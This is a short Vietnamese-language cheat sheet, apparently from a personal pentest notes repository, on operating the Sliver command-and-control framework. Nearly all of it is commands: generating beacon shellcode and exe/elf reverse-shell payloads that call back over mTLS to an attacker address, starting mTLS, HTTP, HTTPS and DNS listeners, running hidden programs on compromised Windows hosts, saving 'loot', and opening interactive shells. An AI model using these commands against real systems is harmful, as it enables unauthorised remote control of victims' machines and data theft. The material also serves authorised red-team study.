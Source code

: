 # Sliver

## Setup

### Tạo payload

Sliver chia payload reverse shell thành hai loại chính đó là `Beacon` và `Session` payload

#### Beacon Shellcode

```
sliver > generate beacon --mtls <ip address>:<port> -f shellcode
```

#### Beacon Binary

```
sliver > generate beacon --mtls <ip address>:<port> --os #{os} -f #{file_format}
```

- `os`: windows | linux
- `file_format`: exe | elf

### Stager

**Tại sao phải dùng stager ?**
> Đọc trong [Stager Note](./stager.md) nhé :>

## Exploit

### Tạo Listener

#### MTLS

```bash
sliver > mtls
```

#### HTTP

```bash
sliver > http
```

#### HTTPS

```bash
sliver > https
```

#### DNS

```bash
sliver > dns
```

### Post Exploit

#### Tương tác beacon

```bash
sliver > beacons
sliver > use <beacon_id>
```

- Thực thi lệnh với execute cho phép chạy một chương trình trên hệ thống bị khai thác.

```bash
sliver (LIVE_MOUSSE) > help execute

Usage:
  execute [flags]

Flags:
  -h, --help            Hiển thị trợ giúp cho lệnh execute
  -H, --hidden          Ẩn cửa sổ của process (Windows only)
  -S, --ignore-stderr   Không in STDERR ra console
  -X, --loot            Lưu output thành loot
  -n, --name string     Tên loot (tùy chọn)
  -o, --output          Ghi lại output của lệnh
  -P, --ppid uint32     Parent Process ID (Windows only)
  -s, --save            Lưu output vào file
  -E, --stderr string   Đường dẫn để redirect STDERR trên máy remote
  -O, --stdout string   Đường dẫn để redirect STDOUT trên máy remote
  -t, --timeout int     Timeout gRPC (mặc định 60 giây)
  -T, --token           Thực thi lệnh với token hiện tại (Windows only)
```

- Ví dụ:
```bash
# Chạy lệnh "ipconfig" và hiển thị output
execute -o ipconfig

# Chạy ẩn một chương trình trên Windows
execute -H calc.exe

# Lưu kết quả của "whoami" thành loot
execute -o whoami -X -n whoami_loot
```

#### Tạo session từ beacon

```bash
sliver (<beacon_name>) > interactive
sliver (<beacon_name>) > sessions
sliver (<beacon_name>) > use <session_id>
```

#### Tạo shell từ session

```bash
sliver (<session_name>) > shell
```
